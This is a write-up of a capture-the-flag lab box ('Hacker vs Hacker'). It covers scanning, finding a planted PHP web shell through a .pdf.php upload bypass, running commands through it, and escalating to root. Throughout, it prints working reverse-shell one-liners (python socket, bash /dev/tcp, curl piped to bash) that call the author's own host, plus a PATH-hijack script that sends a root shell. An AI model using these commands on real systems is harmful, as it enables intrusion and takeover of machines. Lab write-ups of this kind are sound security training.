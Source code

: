 Apache/2.4.41 (Ubuntu) Server at 10.10.171.190 Port 80

nmap
```
└─$ sudo nmap -Pn -sV -sX 10.10.171.190
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-15 10:04 PDT
Nmap scan report for 10.10.171.190
Host is up (0.17s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.33 seconds
```

gobuster
```
└─$ gobuster dir -w /usr/share/wordlists/dirb/common.txt -x php,js,txt,html -u http://10.10.171.190/
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.171.190/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php,js,txt,html
[+] Timeout:                 10s
===============================================================
2022/08/15 10:05:49 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 278]
/.hta.php             (Status: 403) [Size: 278]
/.hta.js              (Status: 403) [Size: 278]
/.hta.txt             (Status: 403) [Size: 278]
/.hta.html            (Status: 403) [Size: 278]
/.htaccess            (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/.htaccess.txt        (Status: 403) [Size: 278]
/.htpasswd.php        (Status: 403) [Size: 278]
/.htaccess.html       (Status: 403) [Size: 278]
/.htpasswd.js         (Status: 403) [Size: 278]
/.htaccess.php        (Status: 403) [Size: 278]
/.htpasswd.txt        (Status: 403) [Size: 278]
/.htaccess.js         (Status: 403) [Size: 278]
/.htpasswd.html       (Status: 403) [Size: 278]
/css                  (Status: 301) [Size: 312] [--> http://10.10.171.190/css/]
/cvs                  (Status: 301) [Size: 312] [--> http://10.10.171.190/cvs/]
/dist                 (Status: 301) [Size: 313] [--> http://10.10.171.190/dist/]                                                                              
/images               (Status: 301) [Size: 315] [--> http://10.10.171.190/images/]                                                                            
/index.html           (Status: 200) [Size: 3413]                                                                                                              
/index.html           (Status: 200) [Size: 3413]                                  
/server-status        (Status: 403) [Size: 278]                                   
/upload.php           (Status: 200) [Size: 552]                                   
                                                  
```

/upload.php
```


Hacked! If you dont want me to upload my shell, do better at filtering!

<!-- seriously, dumb stuff:

$target_dir = "cvs/";
$target_file = $target_dir . basename($_FILES["fileToUpload"]["name"]);

if (!strpos($target_file, ".pdf")) {
  echo "Only PDF CVs are accepted.";
} else if (file_exists($target_file)) {
  echo "This CV has already been uploaded!";
} else if (move_uploaded_file($_FILES["fileToUpload"]["tmp_name"], $target_file)) {
  echo "Success! We will get back to you.";
} else {
  echo "Something went wrong :|";
}

-->
```

wfuzz ( I got stuck and had to consult a walkthrough[https://musyokaian.medium.com/hacker-vs-hacker-tryhackme-walkthrough-de45d24bdfce]. I kept attempting to upload my own reverse shell using the 
above upload source code as a guide but nothing happened. I kept enumerating the /cvs directory to no avail. The walkthrough
showed that .pdf.php can bypass the code to upload a reverse shell. The walkthrough showed how to use WFUZZ to find the attacker's uploaded shell.
```
 wfuzz -c -w big.txt -u http://10.10.171.190/cvs/FUZZ.pdf.php

...
000002457:   200        1 L      2 W        18 Ch       "shell"   
```

on /cvs/shell.pdf.php
```
boom!
```

I fiddled around and tried adding url params. I found that "cmd" worked. (cmd is a pretty classic parameter to use)
(<?php echo shell_exec($_GET['cmd']); ?>) <- I'm guessing that the attacker uploaded something like this.

```
http://10.10.171.190/cvs/shell.pdf.php?cmd=ls

...

index.html
shell.pdf.php
```

We have RCE. Now let's get a shell. 

I found that python3 is on the machine so i ran
```
python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.13.46.127",1111));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
└─$ nc -nvlp 1111
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::1111
Ncat: Listening on 0.0.0.0:1111
Ncat: Connection from 10.10.171.190.
Ncat: Connection from 10.10.171.190:50476.
$ nope
```

Hmm, I will have to get creative.
```
http://10.10.171.190/cvs/shell.pdf.php?cmd=ls%20../../../../home
lachlan
```

http://10.10.171.190/cvs/shell.pdf.php?cmd=ls%20-la%20../../../../home/lachlan
```
drwxr-xr-x 4 lachlan lachlan 4096 May  5 04:39 .
drwxr-xr-x 3 root    root    4096 May  5 04:38 ..
-rw-r--r-- 1 lachlan lachlan  168 May  5 04:38 .bash_history
-rw-r--r-- 1 lachlan lachlan  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 lachlan lachlan 3771 Feb 25  2020 .bashrc
drwx------ 2 lachlan lachlan 4096 May  5 04:39 .cache
-rw-r--r-- 1 lachlan lachlan  807 Feb 25  2020 .profile
drwxr-xr-x 2 lachlan lachlan 4096 May  5 04:38 bin
-rw-r--r-- 1 lachlan lachlan   38 May  5 04:38 user.txt
```

http://10.10.171.190/cvs/shell.pdf.php?cmd=cat%20../../../../home/lachlan/bin/backup.sh
```
# todo: pita website backup as requested by her majesty
```

http://10.10.171.190/cvs/shell.pdf.php?cmd=cat%20../../../../home/lachlan/.bash_history
```
./cve.sh
./cve-patch.sh
vi /etc/cron.d/persistence
echo -e "dHY5pzmNYoETv7SUaY\nthisistheway123\nthisistheway123" | passwd
ls -sf /dev/null /home/lachlan/.bash_history
```

http://10.10.171.190/cvs/shell.pdf.php?cmd=cat%20../../../../etc/cron.d/persistence
```
PATH=/home/lachlan/bin:/bin:/usr/bin
# * * * * * root backup.sh
* * * * * root /bin/sleep 1  && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
* * * * * root /bin/sleep 11 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
* * * * * root /bin/sleep 21 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
* * * * * root /bin/sleep 31 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
* * * * * root /bin/sleep 41 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
* * * * * root /bin/sleep 51 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
```

I'm in!
`lachlan:thisistheway123`
```
Last login: Thu May  5 04:39:19 2022 from 192.168.56.1
$ nope
Connection to 10.10.171.190 closed.
```

okay, maybe not...

http://10.10.171.190/cvs/shell.pdf.php?cmd=cat%20../../../../etc/cron.d/e2scrub_all
```
30 3 * * 0 root test -e /run/systemd/system || SERVICE_MODE=1 /usr/lib/x86_64-linux-gnu/e2fsprogs/e2scrub_all_cron
10 3 * * * root test -e /run/systemd/system || SERVICE_MODE=1 /sbin/e2scrub_all -A -r

```

I tried running e2scrub_all and it didn't work as I thought it would. I'm going to try another reverse shell.
`bash -i >& /dev/tcp/10.13.46.127/1111 0>&1`


So I think If I can get a reverse shell up, then I could su into lachlan. I went to /tmp and tried to upload a bash shell.
http://10.10.171.190/cvs/shell.pdf.php?cmd=cd%20../../../../tmp%20|%20wget%2010.13.46.127:8080/bshell.sh (python http.server hosted on my machine)
http://10.10.171.190/cvs/shell.pdf.php?cmd=chmod%20+x%20../../../../tmp/bshell.sh


It looks like the shell wasn't going to /tmp but was going to /var/www/html/cvs

```
total 24
drwxr-xr-x 2 www-data www-data 4096 Aug 15 18:26 .
drwxr-xr-x 6 www-data www-data 4096 May  5 04:38 ..
-rw-r--r-- 1 www-data www-data   43 Aug 15 18:21 bshell.sh
-rw-r--r-- 1 www-data www-data   43 Aug 15 18:21 bshell.sh.1
-rw-r--r-- 1 www-data www-data   26 May  5 13:00 index.html
-rw-r--r-- 1 www-data www-data   47 May  5 12:57 shell.pdf.php

```

I used the same method in the walkthrough "curl 10.13.46.127:8080/bshell.sh | bash" which gets the contents from the reverse shell file and pipes it to bash
running it. I got my foothold!
```
└─$ nc -nvlp 1111
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::1111
Ncat: Listening on 0.0.0.0:1111
Ncat: Connection from 10.10.171.190.
Ncat: Connection from 10.10.171.190:50496.
bash: cannot set terminal process group (725): Inappropriate ioctl for device
bash: no job control in this shell
www-data@b2r:/var/www/html/cvs$ ls
ls
bshell.sh
bshell.sh.1
bshell.sh.2
index.html
shell.pdf.php
www-data@b2r:/var/www/html/cvs$
```

in /home/lachlan/bin
```
 echo "bash -c \"bash -i >& /dev/tcp/10.13.46.127/1112 0>&1\"" > pkill
chmod +x pkill
```

ssh in as lachlan to get our pkill script to execute as root sending a root shell to me.
